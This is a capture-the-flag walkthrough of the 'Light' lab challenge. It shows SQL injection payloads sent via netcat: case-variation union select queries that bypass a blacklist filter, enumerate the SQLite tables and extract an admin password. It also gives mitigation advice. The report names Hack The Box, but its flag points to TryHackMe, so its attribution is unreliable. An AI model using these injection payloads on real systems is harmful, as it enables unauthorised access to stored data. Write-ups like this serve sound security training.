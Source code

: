 # Light – Hack The Box Walkthrough Report

**Prepared by:** Nishanth Antony  
**Date:** August 12, 2025  
**Difficulty:** Easy  
**Category:** Web Exploitation (SQL Injection)  
**Platform:** Hack The Box (HTB)  

---

## 1. Reconnaissance Steps

- **Objective:** Identify open services and test for vulnerabilities.  
- **Command Used:**
```bash
nc 10.201.63.180 1337
```

text
- **Details:**
- Prompted for password → entered `smokey`.
- Reached **username** prompt → suspected SQL injection possible.

---

## 2. Exploitation Process

1. **Tested for SQL Injection**  
 - Payload: `' OR 1=1 --`  
 - Response: Filter error – banned characters **/*, --, %0b**.

2. **Error Messages Leaked Info**  
 - Attempted: `' ORDER BY 1` → Error revealed **LIMIT 30** and SQL flavor (SQLite).

3. **Bypass Case-Sensitive Filter**  
 - Tried: `SELECT` → blocked.  
 - Used: `SeLeCt` → worked (SQLite ignores case, filter did not).

4. **Enumerated DB Version**
```mysql  
1' uNion SeLeCt sqlite_version() '1
```

text
→ Got: **3.31.1**.

5. **Enumerated Tables**
```mysql
1' uNion SeLeCt name FROM sqlite_master '1
```

text
→ Found: **admintable**.

6. **Extracted Data**  
- Username:
  ```mysql
  1' uNion SeLeCt username FROM admintable '1
  ```
  → `TryHackMeAdmin`
- Password (Flag):
  ```mysql
  ' uNion SeLeCt password FROM admintable '1
  ```
  → Flag: `THM{SQLit3_InJ3cTion_is_SimplE_nO?}`

---

## 3. Proof of Concept (PoC)

- Successfully bypassed filters and retrieved sensitive data using **case variation + union select injection**.
- No authentication bypass needed — direct flag extraction.

---

## 4. Privilege Escalation

- **Not required** — The challenge's main objective was SQL injection to retrieve the flag. No OS-level escalation implemented.

---

## 5. Mitigation Recommendations

- Use **prepared statements** or **parameterized queries**.
- Implement **case-insensitive filtering** with allowlists instead of blacklists.
- Suppress **detailed error messages** in production.
- Apply **least privilege** in the database — restrict access to sensitive tables.

---

## 6. Lessons Learned

- Case-sensitive blacklist filters can be bypassed.
- Error messages leak valuable info for crafting attacks.
- SQLite-specific queries can help map database quickly.

---

## 7. Skills Practiced

- SQL injection testing via netcat.
- Query enumeration in SQLite.
- Crafting UNION SELECT injections and bypassing filters.
- Exploiting case-sensitive filtering weaknesses.

---
